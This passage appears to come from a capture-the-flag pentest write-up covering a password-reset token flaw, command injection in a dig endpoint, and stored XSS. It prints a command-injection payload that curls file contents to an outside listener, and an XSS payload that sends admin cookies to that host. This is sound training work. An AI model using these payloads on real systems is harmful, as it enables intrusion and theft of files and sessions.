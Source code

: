 An attacker can log in as any user they wish and at the same time cause denial-of-service as the original user will be unable to log back into their account after the original password is changed. An attacker with admin privileges can cause significant damage to a system.

### Remediation
Reset tokens should not be sent directly back to a user in the browser, most services send it to the user's registration email. Furthermore, a reset token should not allow anyone to easily identify the means used to generate it with, otherwise this would allow attackers to generate their own tokens such as in this case.

<div class="divider"></div>
# Command Injection
> Target: https://site.scm.cdu9xbn8bapxzssooudpig.exam.ns.agency/  (SmugSite)

### Proof of Concept
1. After trying many different points for possible Server-Side Request Forgery, I checked `robots.txt` which lead to `/API/dig`  

2. Knowing that `dig` is a unix command-line tool, I guessed that the parameter `v` is being passed direcly as an argument, which means that command injection is possible.  

3. After experimenting with multiple payloads, the following one gave me the flag:   
```ruby
https://site.scm.cdu9xbn8bapxzssooudpig.exam.ns.agency/API/dig?v=`curl listener.ml?q=$(cat /flag)`
```
```ruby
flagrotating_skyrocketed_competition
```

<br/>
  
### Impact 
**P1 - Critical**

An attacker can basically take over the whole system since they now have remote code execution, they can move laterally or vertically through the system.

### Remediation
Escape user input before passing to commands that interact with a subshell.

<div class="divider"></div>
# Stored Cross-Site Scripting (XSS)
> Target: https://scm.cdu9xbn8bapxzssooudpig.exam.ns.agency/ (GlueTrash)

### Proof of Concept
1. Although all other fields in a Trash page are correctly escaped, the `highlight` field is vulerable to XSS, as it is reflected inside of an inline script code block. _(Line 178-189)_
2. The specific line where the payload can be stored and reflected is Line 179:` var hl = '<PAYLOAD HERE>';`
3. By intercepting the request in **`Burp Suite`** and changing the highlight field to:  
   ```ruby
      ';new+Image().src="http://listener.ml?"%2Bdocument.cookie;//
   ```  
   the payload then gets triggered by an admin allowing us to obtain the cookie value.  
4. URL used: 
```ruby
https://scm.cdu9xbn8bapxzssooudpig.exam.ns.agency/page/50c35154-6aec-11e8-bf41-02420a0001d7?p=
```
^
```
================================================================================
> Requested GET path: /?flag=flag{walk_on_battle_Easter}
> accept-encoding: gzip, deflate
> connection: keep-alive
```